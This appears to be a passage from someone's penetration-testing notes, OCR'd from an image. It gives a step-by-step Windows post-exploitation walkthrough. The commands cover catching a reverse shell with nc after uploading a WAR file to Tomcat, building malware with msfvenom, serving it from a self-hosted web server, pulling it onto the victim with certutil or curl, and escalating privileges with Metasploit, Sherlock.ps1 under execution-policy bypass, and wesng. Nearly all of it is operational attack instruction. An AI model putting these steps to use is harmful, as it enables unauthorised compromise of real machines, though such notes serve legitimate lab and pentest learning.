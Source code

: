                             `nc -nvlp <lport>`
                        to force the webpage to run it while logged into
                            Tomcat, click your uploaded WAR file
                        `nc` will catch the shell!!!
                * with `nt authority\system` to improve shell
                    make malware with msfvenom and start listner in metasploit
                    upload malware to a self hosted web server
                        `python -m SimpleHTTPServer 80` will make a web server
                            on port 80 starting from whatever `dir` you
                            launched it from.
                        from our shell on the box, pull the malware to the box
                            from your web server (could be stopped by Windows
                            Defender): `certutil -urlcache -f http://<ip to web server/<file>`
                        once transfered run it in the shell to get a callback
                        in metasploit.
                            `powershell` to turn windows shell into powershell
                            and then `curl <web server ip/malware> -O <whereyouwantit>`
                            to download a file from your webserver onto windows
                            box
                    * find privilege escalation with metasploit on windows box
                        `bg` your session
                        `search suggester` and use it
                        `set session <the one with the shell>`
                        this will give you a list of modules that might work
                            so pick one and run it!
                        `sessions -i <id>` to swtich to that session
                        the windows privilege escalation bible:
                        https://www.fuzzysecurity.com/tutorials/16.html
                        * `Sherlock.ps1`
                            Manual way of searching for privilege escalation
                                on the box vulnerabilities on windows:
                            `powershell.exe -exec bypass sherlock.ps1 -Command "& {Import-Module ./sherlock.ps1; Find-AllVulns}"` 
                                will bypass protections to run malware
                        * `wesng` windows escalation suggester - next gen
                            can run the checker OFF the box with the sysinfo
                            get shell on box and run `systeminfo`. copy output
                                and save to .txt
                            `/opt/wesng` run `python3 wes.py --update`
                            `python3 wes.py -e <systeminfo.txt>` and you will
                                get a list of vulns with known exploits
                            then use metasploit or download the exploit from
                                explopitDB or simply `searchsploit` for it
                        * `stdapi_sys_config_getsid: Operation failed: Access is denied`
                            when trying to use `getuid` look at migrating:
                            in metasploit `post/windows/manage/migrate module`
                            if it works, `sessions <number>` to get back to
                            your session
                            
                            also try `ps` to see what service we are. 
                            try `migrate <pid>` to a service running as user.
                            